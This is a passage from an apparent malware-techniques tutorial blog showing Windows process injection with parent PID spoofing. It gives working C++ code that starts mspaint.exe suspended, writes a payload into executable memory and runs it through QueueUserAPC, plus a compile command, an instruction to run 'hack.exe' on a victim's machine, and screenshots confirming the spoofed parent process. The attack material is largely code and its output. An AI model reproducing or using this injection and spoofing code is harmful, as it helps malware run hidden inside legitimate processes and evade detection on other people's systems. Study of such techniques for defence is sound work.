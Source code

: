 ```cpp
  CreateProcessA("C:\\Windows\\System32\\mspaint.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);
  LPVOID ba = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  SIZE_T *nb = 0;
  BOOL res = WriteProcessMemory(pi.hProcess, ba, (LPVOID)my_payload, sizeof(my_payload), nb);

  QueueUserAPC((PAPCFUNC)ba, pi.hThread, 0);
  ResumeThread(pi.hThread);
  CloseHandle(pi.hThread);

  return 0;
}
```

As you can see, I reused my code from [this](/pentest/2021/09/29/findmyprocess.html) and [this](/tutorial/2021/11/11/malware-injection-3.html) posts.    

> Here I have hardcoded a bit the process which being started, you can modify it so that it accepts it from the command-line arguments

### demo

Let's go to see everything in action. Compile our "malware":    

```cpp
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mwindows -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![injection](/assets/images/67/2022-09-06_23-10.png){:class="img-responsive"}    

Then run it on the victim's machine:    

```powershell
.\hack.exe explorer.exe
```

![injection](/assets/images/67/2022-09-06_23-27.png){:class="img-responsive"}    

Run Process Hacker and as you can see, `mspaint.exe` process successfully created (PID: `4720`):   

![injection](/assets/images/67/2022-09-06_23-27_1.png){:class="img-responsive"}    

And:    

![injection](/assets/images/67/2022-09-06_23-28_1.png){:class="img-responsive"}    

![injection](/assets/images/67/2022-09-06_23-28.png){:class="img-responsive"}    

as you can see, parent process is `2876` which is corresponds to `explorer.exe`, but current directory is `Z:\2022-09-06-malware-tricks-23`!    

